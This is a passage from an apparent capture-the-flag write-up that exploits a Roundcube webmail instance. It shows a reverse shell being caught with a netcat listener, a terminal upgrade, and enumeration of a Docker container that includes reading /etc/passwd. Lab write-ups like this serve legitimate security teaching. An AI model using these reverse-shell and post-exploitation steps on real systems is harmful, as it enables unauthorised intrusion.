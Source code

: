 On sending, it reports that it saved the config:

[![image-20220504155844870](https://0xdfimages.gitlab.io/img/image-20220504155844870.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220504155844870.png)

Now on loading any Roundcube page, it generates a reverse shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.82 50750
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@1a447de8638b:/var/www/html/mastermailer$
    

I’ll do a [shell upgrade](https://youtu.be/DqE6DxqJg8Q):

    
    
    www-data@1a447de8638b:/var/www/html/mastermailer$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@1a447de8638b:/var/www/html/mastermailer$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@1a447de8638b:/var/www/html/mastermailer$
    

## Shell as mark [seventeen]

### Enumeration

#### Docker

It’s clear that I’m in a Docker container. The hostname is `1a447de8638b` and
not something related to the box name. There’s a `.dockerenv` file in `/`:

    
    
    www-data@3c0f9fd0f60d:/$ ls -la .dockerenv 
    -rwxr-xr-x 1 root root 0 Apr  8 18:55 .dockerenv
    

Very few commands are on the host. No `ifconfig` , `ip`, etc.

#### Users

There are no directories in `/home`. Interestingly, there is one user with a
shell:

    
    
    www-data@3c0f9fd0f60d:/$ cat /etc/passwd | grep -v -e nologin -e false
    root:x:0:0:root:/root:/bin/bash
    sync:x:4:65534:sync:/bin:/bin/sync
    mark:x:1000:1000:,,,:/var/www/html:/bin/bash
    